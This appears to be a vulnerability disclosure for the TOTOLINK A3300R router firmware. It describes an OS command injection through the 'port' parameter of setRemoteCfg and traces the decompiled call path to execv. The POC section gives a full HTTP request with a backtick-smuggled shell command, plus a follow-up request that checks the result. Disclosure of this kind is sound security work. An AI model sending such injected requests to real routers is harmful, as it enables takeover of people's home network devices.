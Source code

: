# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setRemoteCfg` request,`port`or`enable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: 192.168.0.1
Content-Length: 75
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/remote.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=eER8ohUW; PrivateKey=73756ACCDA18C09131DFDF6F7C5AA16B; timeout=2
Connection: close

{"port":"12345`ls>/web/cmdi14.txt`","enable":"1","topicurl":"setRemoteCfg"}
```

injection the command "ls>/web/cmdi14.txt"

![image-20240119142904601](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/14/img/image-20240119142904601.png)

check the result.

```
GET /cmdi14.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119142908802](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/14/img/image-20240119142908802.png)

## Analysis

sub_4141F8 will handle the `setRemoteCfg` request. sub_4141F8 get `port` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119143009692](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/14/img/image-20240119143009692.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131330610.png)


